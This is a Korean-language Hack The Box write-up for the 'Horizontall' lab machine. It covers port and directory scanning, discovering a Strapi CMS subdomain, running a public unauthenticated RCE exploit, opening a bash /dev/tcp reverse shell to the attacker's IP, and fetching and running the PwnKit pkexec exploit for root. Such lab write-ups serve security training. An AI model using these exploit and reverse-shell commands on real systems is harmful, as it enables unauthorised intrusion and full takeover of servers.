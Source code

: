 # Horizontall
IP: 10.129.214.77


## 정보 수집

nmap을 사용해서 포트스캔 

```bash
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
포트 스캔결과 22,80번 포트가 열려있는것 확인

```bash
nmap -sV -sC -oA nmap/Horizontall $ip -p 22,80 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

각 포트별 현재 사용중인 시스템 버전은  
- 22 ssh  OpenSSH 7.6p1  
- 80 http nginx 1.14.0

> |_http-title: Did not follow redirect to http://horizontall.htb


웹서버에서 리다이렉션 했으나 실패 로컬에 등록해야함

```bash
#/etc/hosts 에 아래줄 추가
10.129.214.77   horizontall.htb
```
![alt text](webpage.png)
웹페이지 접속해서 분석결과 정적인 페이지  
웹디렉토리 브루트 포싱 시도  

```bash
gobuster dir -u http://horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt

/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/favicon.ico          (Status: 200) [Size: 4286]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/index.html           (Status: 200) [Size: 901]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```
별다른 파일, 디렉토리 찾지 못함  
ffuf로 하위도메인 탐색 별다른 하위도메인 찾지 못함  

웹페이지 소스 다시한번 분석  
http://horizontall.htb/js/chunk-vendors.0e02b89e.js  
난독화되어있는 js코드 https://beautifier.io/ 에서 읽을 수 있게 바꾼 후 분석  

```bash
cat app.js | grep -i horizontall
                        href: "https://horizontall.htb"
                }, [t._v("Horizontall.htb")])])])])
                        r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
        t.exports = e.p + "img/horizontall.2db2bc37.png"
```

http://api-prod.horizontall.htb/ 하위도메인을 찾음

```bash
#/etc/hosts 에 아래줄 추가
10.129.214.77   api-prod.horizontall.htb
```

http://api-prod.horizontall.htb 접속
![alt text](image.png)
아무것도 없이 정적페이지 다시 웹디렉토리 탐색
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/ADMIN                (Status: 200) [Size: 854]
/favicon.ico          (Status: 200) [Size: 1150]
/index.html           (Status: 200) [Size: 413]
/reviews              (Status: 200) [Size: 507]
/robots.txt           (Status: 200) [Size: 121]
/robots.txt           (Status: 200) [Size: 121]
/users                (Status: 403) [Size: 60]

```

/admin,/Admin,ADMIN 접속 시  
http://api-prod.horizontall.htb/admin/auth/login 로그인페이지로 리다이렉션됨
![alt text](image-1.png)
strapi CMS를 사용중이란것 확인

/reviews 에서 회원아이디로 추정되는 정보
![alt text](image-2.png)
## 취약점 & 익스플로잇 분석
```bash
searchsploit strapi  

Strapi 3.0.0-beta - Set Password (Unauthenticated)
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)       
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) 
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit) 
```
현재 버전을 확인하지 못했음 일단 인증이 필요없는 취약점 부터 사용

Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) 

```bash
searchsploit -m 50239.py
python3 50239.py http://api-prod.horizontall.htb/  
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzU0NDA3MDU5LCJleHAiOjE3NTY5OTkwNTl9.DcygFSCDGQ08l_ot68-V4geIePLvRPpaiDfFDeq264M

$> ls
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```
RCE exploit은 성공했으나 blind RCE라서 값이 출력은 되지않음
셸을 얻기 위해 리버스셸 코드 실행

bash -c 'exec bash -i &>/dev/tcp/10.10.14.74/9999 <&1'
![alt text](image-4.png)


```bash
# 셸 안정화
strapi@horizontall:~/myapi$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 9999
                                                                                                                                             
┌──(root㉿kali)-[~/Hack_The_Box/Horizontall]
└─# stty raw -echo;fg   
[1]  + continued  nc -nlvp 9999

strapi@horizontall:~/myapi$ 
```
/home/developer 디렉토리에서 user.txt 플래그를 찾음음

```bash
strapi@horizontall:/home/developer$ cat user.txt 
03c7fcc0f0124c56a4af687250c8250a
```

## Privilege-Escalation

setuid 탐색
```bash
strapi@horizontall:/tmp$ find / -perm -4000 -type f 2> /dev/null
/usr/bin/pkexec # 취약점 존재
```
https://github.com/ly4k/PwnKit 루트킷 설치

```bash
#kali linux
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
python3 -m http.server 7777 
#대상 호스트
wget http://10.10.14.74:7777/PwnKit
chmod +x PwnKit 
./PwnKit
id
uid=0(root) gid=0(root) groups=0(root),1001(strapi)  
```
루트권한을 얻음

```bash
cat /root/root.txt                   
e7931bd6e9f0a01d00e008d5cdd5e005 
```

# 취약점
- 취약한 버전의 Strapi CMS 3.0.0-beta.17.4 사용
- 잘못된 setuid 설정 /usr/bin/pkexec 권한상승 취약점이 존재하는 바이너리 파일이 setuid설정 되어있음음

